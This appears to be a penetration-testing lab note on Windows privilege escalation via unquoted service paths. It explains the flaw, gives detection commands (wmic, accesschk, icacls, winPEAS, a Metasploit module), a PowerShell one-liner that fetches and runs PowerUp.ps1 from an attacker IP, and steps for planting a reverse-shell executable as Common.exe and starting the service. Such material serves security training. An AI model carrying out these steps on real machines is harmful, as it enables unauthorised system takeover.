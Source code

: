 # Unquoted Service Path

Executables in Windows can be run without using their extension \(e.g. “whoami.exe” can be run by just typing “whoami”\). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

 To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## detecting unquoted service paths

### manual method

```text
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows \(since by default there is no such service which has spaces and is unquoted in this folder\). Also, we need to exclude those services that are enclosed within the double quotes.

### automated with metasploit

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```text
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### automated using powerup

```text
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### automated with winPEAS

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../../.gitbook/assets/image%20%28100%29.png)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```text
sc qc unquotedsvc
```

![](../../../../../.gitbook/assets/image%20%28101%29.png)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```text
accesschk.exe -ucqv user unquotedsvc
```

![](../../../../../.gitbook/assets/image%20%2877%29.png)

we have start permission, now check for write permission on each directory path to the binary file:

```text
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```text
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](../../../../../.gitbook/assets/image%20%2875%29.png)

it looks like all the members of the builtin\users group have RW \(read/write\) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. \(because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```text
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start unquotedsvc
```

![](../../../../../.gitbook/assets/image%20%2897%29.png)









